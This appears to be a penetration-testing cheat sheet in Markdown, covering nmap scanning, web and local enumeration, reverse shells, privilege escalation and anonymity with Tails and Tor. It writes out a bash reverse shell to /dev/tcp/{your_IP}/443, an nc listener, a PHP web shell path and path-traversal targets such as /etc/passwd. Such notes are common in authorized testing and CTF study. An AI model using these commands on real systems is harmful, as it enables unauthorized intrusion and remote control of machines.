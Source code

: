 # Target enumeration

## Remote
1. `nmap <ip> -p-` (all ports) 
    - `-sU` (UDP) `-Pn` (skip host discovery)`
    - `-A` (implies `-O` (OS), `-sC` (scripts), `-sV` (version))
    - `-f` (fragment packets) `-D` (decoy)
2. Webservers
    - Spider website (e.g. using Burp Suite Proxy without intercept)
    - Enumerate subdomains and dirs (e.g. with `gobuster`)
    - Vulnerabilities with OWASP
    - Enumerate login forms
    - XSS, SQL-Injection
    - Path traversal
        - .htpasswd
        - /etc/passwd
        - /etc/group
3. Monitor TCP/IP traffic (e.g. LDAP) `sudo tcpdump -i tun0 port 389`

## On site
1. Processes
    - `ps aux`
2. Ports
    - `ss`
    - `netstat -tunlp`
        - `-t` (TCP)
        - `-u` (UDP)
        - `-n` (No service resolution)
        - `-l` (Only listening)
        - `-p` (Process info)

    - `lsof`
3. File system
    - Interesting text data
        - `find . -type f -name '<glob pattern>' | xargs cat | grep -i <glob pattern>`
    - Binaries
        - Find binaries with permissions for user group `find / -group <group_name> 2>/dev/null`
        - Query infos about files `ls -la <path_to_file> && file <path_to_file>`
        - Append PATH `export PATH=<directory>:$PATH`
        - Check vulnerable binaries https://gtfobins.github.io/


# Remote code execution
1. Access OS shell
    - Set up reverse shell with `nc -lvnp <port>`
        - /usr/share/webshells/php/php-reverse-shell.php
        - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`
    - Spawn fully interactive shell
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'` CTRL+Z `stty raw -echo` `fg` `export TERM=xterm`
    - Use ssh if credentials found at some point


# Privilege escalation
1. User permissions: `whoami`, `id`, `sudo -l`
2. User groups
    - `lxd`: Containers
3. Windows: `impacket-psexec`


# Password cracking
1. Use Google as Rainbow Table


# Privacy
1. Tails
2. Proxychains with TOR